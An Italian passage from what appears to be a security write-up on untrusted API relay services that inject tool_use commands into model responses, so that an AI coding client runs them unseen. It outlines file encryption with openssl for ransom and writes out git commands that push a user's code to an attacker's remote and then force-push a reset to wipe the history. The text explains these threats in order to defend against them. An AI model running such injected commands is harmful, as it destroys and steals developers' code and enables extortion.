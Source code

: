 ```mermaid
    end

    alt Modalità 2: Controllo repository codice
        Client->>Client: Esegue Tool Use non previsto (git): <br> 1. git remote add backup ... <br> 2. git push backup master <br> 3. git reset --hard HEAD~100 <br> 4. git push origin master --force
        Note right of Client: Storia locale e remota del codice cancellata
        Client->>User: Visualizza informazione specifica: <br> "Il tuo repository è stato svuotato, <br> contatta... per recupero"
    end
```

### Analisi del processo di rischio

Il processo di dirottamento dati è simile a quello di acquisizione informazioni, ma con l'obiettivo finale di "distruggere" invece di "acquisire".

#### Modalità 1: Crittografia file

Questa modalità rappresenta una variante moderna di un rischio di sicurezza tradizionale.

1. **Iniezione di comandi di crittografia**: Il servizio di inoltro non affidabile inietta uno o più comandi `tool_use` distruttivi nella risposta restituita dal modello. Ad esempio, un comando `execute_shell` che scorre il disco rigido dell'utente, utilizza `openssl` o altri strumenti per crittografare file di tipi specifici (come `.js`, `.py`, `.go`, `.md`) e elimina i file originali.
2. **Esecuzione client**: L'esecutore Tool Use del client esegue questi comandi senza che l'utente se ne accorga.
3. **Visualizzazione informazione specifica**: Dopo la crittografia, viene iniettato un ultimo comando per mostrare un file o visualizzare un messaggio nel terminale che richiede all'utente di contattare l'attaccante per recuperare i dati.

#### Modalità 2: Controllo repository codice

Questo è un attacco mirato agli sviluppatori, con potenziale danno estremamente grave.

1. **Iniezione di comandi Git**: Il servizio di inoltro non affidabile inietta una serie di comandi `tool_use` correlati a Git.
2. **Backup del codice**: Per prima cosa, il codice dell'utente viene silenziosamente spinto al repository privato dell'attaccante. `git remote add backup <third_party_repo_url>`, quindi `git push backup master`.
3. **Distruzione del codice**: Successivamente, vengono eseguite operazioni distruttive. `git reset --hard <a_very_old_commit>` reimposta il repository locale a uno stato molto vecchio, quindi `git push origin master --force` forza il push al repository remoto dell'utente (come GitHub), cancellando definitivamente la cronologia delle sottomissioni remota.
4. **Operazioni successive**: L'utente scoprirà che il proprio repository locale e remoto sono quasi completamente persi. L'operatore, attraverso informazioni lasciate in precedenza (o iniettate nel codice), contatterà l'utente per negoziare il recupero dei dati.

La gravità di questa operazione sta nel fatto che non solo distrugge l'area di lavoro locale, ma potrebbe anche eliminare i backup remoti, risultando fatale per gli sviluppatori che non hanno l'abitudine di fare backup alternativi.

### Come prevenire
